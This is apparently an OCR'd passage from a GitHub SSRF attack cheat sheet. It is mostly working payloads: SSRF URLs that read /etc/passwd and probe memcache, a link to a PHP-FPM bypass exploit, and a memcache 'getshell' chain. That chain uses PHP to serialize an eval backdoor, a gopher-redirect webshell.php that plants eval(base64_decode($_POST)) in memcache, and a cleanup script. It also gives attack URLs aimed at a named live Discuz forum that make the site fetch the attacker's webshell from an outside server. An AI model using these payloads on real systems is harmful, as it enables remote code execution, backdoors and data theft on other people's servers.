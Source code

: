 ```
http://safebuff.com/redirect.php?url=file:///etc/passwd
```
> ldap

```
http://safebuff.com/redirect.php?url=ldap://localhost:11211/%0astats%0aquit
```
### PHP-FPM
> PHP-FPM universal SSRF bypass safe_mode/disabled_functions/o [exploit](https://gist.github.com/xl7dev/72f93dba273f4c353a69f770e8f9c4a6)

### SSRF memcache Getshell
> Generate serialize

```
<?php
    $code=array('global_start'=>'@eval($_REQUEST[\'eval\']);');
    echo serialize($code)."\n".strlen(serialize($code));
```
> Output

```
a:1:{s:12:"global_start";s:25:"@eval($_REQUEST['eval']);";} //序列化数据
59  //字符串长度
```
> webshell.php

```
<?php
//gopher可以换成如上其它方式
    header('Location: gopher://[target ip]:11211/_%0d%0aset ssrftest 1 0 147%0d%0aa:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";s:5:"/.*/e";s:7:"replace";s:33:"eval(base64_decode($_POST[ccc]));";}}s:13:"rewritestatus";i:1;}%0d%0a');
?>
```
> back.php

```
<?php
    header('Location: gopher://192.168.10.12:11211/_%0d%0adelete ssrftest%0d%0a');
?>
```
#### example Discuz
> open the website

```
http://bbs.biligame.com/forum.php?mod=ajax&action=downremoteimg&message=[img]http://myvps/webshell.php?logo.jpg[/img]
http://bbs.biligame.com/forum.php?mod=ajax&inajax=yes&action=getthreadtypes
```
> clear data

```
http://bbs.biligame.com/forum.php?mod=ajax&action=downremoteimg&message=[img]http://myserver/back.php?logo.jpg[/img]
```
> backdoor url
